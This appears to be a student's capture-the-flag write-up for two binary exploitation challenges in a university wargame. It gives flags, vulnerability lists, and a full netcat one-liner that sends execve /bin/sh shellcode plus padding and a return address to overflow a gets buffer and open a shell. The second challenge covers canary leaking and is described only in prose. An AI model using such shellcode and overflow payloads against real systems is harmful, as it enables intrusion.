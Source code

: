 buffer-4 | shellz
===========================

Flag: `6447{1849748d-6e69-4bca-ab03-67b0778ef9bb}`

General overview of problems faced
-------------------------------------
My first approach was to bruteforce the aslr since the buffer is 8kb which worked after about 2000 runs but I then realised it was easier to simply use rop to call eax which contained the buffer and therefore be able to execute the buffer on every run

List of vulnerabilities
--------------------
1. The stack is executable
2. Input is taking using `gets` and the buffer is of fixed sized therefore a user can overflow the buffer and overwrite anything after it

Steps to exploit
------------------
1. Send your shellcode + enough padding so that the length of your shellcode + the padding = 8204
2. Send the address 0x08048406 in little endian format
3. You now have a shell


Script/Command used
------------------
```bash
(python -c 'print "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "A"*(8204-46) + "\x06\x84\x04\x08"'; cat - ) | nc wargames.6447.sec.edu.au 5004
```

==============================
==============================

canary-3 | stack-dump
===========================

Flag: `6447{31c83bef-e49b-4104-bdeb-bae408e8ef84}`

General overview of problems faced
-------------------------------------
N/A

List of vulnerabilities
--------------------
1. The program lists information about a memory pointer on the stack at esp+35
2. Arbitrary memory can be printed use the program by inputing the address to where you want to read. This allows a user to leverage the previous vulnerability in order to calculate the address pointer to the canary and read the canary.
3. The program uses a fixed buffer with gets to take input when requesting "option a". This means a user can overflow the buffer and overflow the return address of the main function.
4. It is also possible to exploit the "len input" which is then converted into an "int" and then passed as argument to the fread function. No length check is made, therefore the user could request 10000 bytes of input and it would allow you to 'fread' 10000 bytes of input into a fixed a size buffer...
